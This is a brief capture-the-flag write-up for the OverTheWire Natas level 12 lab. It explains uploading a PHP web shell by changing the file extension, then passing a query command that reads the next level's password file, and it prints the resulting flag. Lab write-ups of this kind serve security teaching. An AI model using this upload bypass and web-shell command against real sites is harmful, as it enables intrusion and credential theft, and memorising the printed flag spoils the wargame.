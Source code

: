 ```yaml
---
layout: default
title: natas12
---
```




here we inject webshell, by changing the EXT of the tmp file we upload, as you can see below

![alt text](./images/level12.png)

then, we go to `upload/yw04l1863l.php` which is the url
```
http://natas12.natas.labs.overthewire.org/upload/yw04l1863l.php
```

and inject our payload, in this case: `?x=cd /etc/natas_webpass/; cat natas13`

**Flag:** ***`trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC`*** 